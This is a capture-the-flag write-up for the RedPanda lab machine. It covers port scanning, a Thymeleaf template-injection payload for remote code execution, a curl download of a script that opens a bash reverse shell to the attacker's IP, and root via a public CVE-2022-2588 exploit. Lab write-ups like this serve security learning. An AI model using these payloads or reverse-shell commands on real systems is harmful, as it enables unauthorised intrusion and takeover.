




### Larry Liu's Box Writeup | RedPanda

## Enumeration

To begin, I ran the following commands to find the open ports and then detailed information about them (its IP was **10.10.11.170**):

```bash
nmap -Pn -n -vv --open -T4 10.10.11.170
nmap -Pn -n -p 22,8080 -vv --open -sV -sC -T4 10.10.11.170
```
Seeing that port 8080 was a webpage, I connected to it, bringing me to this screen.


It was a database of panda images with search functionality. Connecting to it with burpsuite told me that it was made with SpringBoot, and looking for springboot exploits led me to trying SSTI exploits. One of the template languages that Springboot uses is Thymeleaf, and I determined that the website was running it in the background by trying some test expressions. Passing in ${7 * 7}, ~{7 * 7}, and underscores into the search bar returned banned characters.


However, passing in *{7 * 7} and #{7 * 7} yielded 49.
Since Thymeleaf runs java, you can pass in expressions using objects like *{T(java.lang.Runtime)} to execute java commands. To run bash commands, we can use a specific tool to parse commands in such a way that they are executed on their machine, at https://github.com/adeiarias/Java-SSTI-generator. For example, if I want to run whoami, I would have to turn it into a java SSTI payload first and then pass it into the search query.

```bash
whoami --> *{T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec(T(java.lang.Character).toString(119).concat(T(java.lang.Character).toString(104)).concat(T(java.lang.Character).toString(111)).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(109)).concat(T(java.lang.Character).toString(105))).getInputStream())}
```

Now that I have RCE, I can try getting a remote shell. For some reason, oneline reverse shell commands aren't working, so I download a bash script on their machine instead using a local python server and curl to get a reverse shell.

```bash
#My Machine, in a directory with the payload

nc -lvp 42069
python3 -m http.server 42068

#Their Machine, all commands here are translated into Java SSTI payloads and sent with burpsuite.

curl http://10.10.14.17:42068/yeet.sh -o /tmp/yeet.sh
bash /tmp/yeet.sh

#Contents of yeet.sh

#!/bin/bash
bash -i >& /dev/tcp/10.10.14.17/42069 0>&1
```
With that, I got a reverse shell and grabbed the user flag.


Afterwards, I ran linpeas on the box by downloading the script from my local server and found that the Ubuntu version was vulnerable to CVE-2022-2588. I got the following exploit onto the box with the same method: https://github.com/Markakd/CVE-2022-2588.

Running the exploit made a new user with root privledges that I could use to grab the root flag and pwned the box!



